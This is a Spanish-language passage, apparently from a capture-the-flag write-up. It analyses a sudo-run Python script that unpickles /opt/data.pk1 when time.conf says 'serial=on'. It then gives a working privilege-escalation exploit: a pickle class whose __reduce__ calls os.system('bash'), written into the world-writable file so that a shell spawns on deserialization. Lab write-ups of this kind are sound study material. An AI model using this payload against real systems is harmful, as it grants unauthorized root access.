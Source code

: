 ```python
        print(f"Ocurrió un error inesperado: {e}")
    
    return None

def is_serial_enabled(config_file_path):
    """Verifica si la serialización está habilitada en el archivo de configuración."""
    if not os.path.exists(config_file_path):
        print(f"El archivo de configuración {config_file_path} no se encontró.")
        return False
    
    with open(config_file_path, 'r') as config_file:
        for line in config_file:
            if line.startswith('serial='):
                value = line.split('=')[1].strip()
                return value.lower() == 'on'
    
    return False

if __name__ == "__main__":
    if is_serial_enabled(config_file_path):
        data = load_pickle_file(file_path)
        if data is not None:
            print("Datos deserializados correctamente, puedes revisar /tmp")
#            print(data)
    else:
        print("La serialización está deshabilitada. El programa no se ejecutará.")
```

Parece ser que este script lo que hace es, primero ver si el archivo `time.conf` tiene la cadena `serial=on`, y si la tiene, llama a pickle.load() para deserializar el contenido del archivo `/opt/data.pk1`.

www-data tiene permisos de lecutra y escritura sobre `/opt/data.pk1`, así que podemos meter dentro un objeto serializado con un comando, para que al deserializarlo con sudo este se ejecute.

Nos vamos a `/tmp` y nos hacemos este script en python:

```python
#!/usr/bin/python3

import pickle, os

class RCE:

        def __reduce__(self):

                cmd = "bash"

                return (os.system, (cmd,))

rce = RCE()

with open("/opt/data.pk1", "wb") as f:

        pickle.dump(rce, f)
```
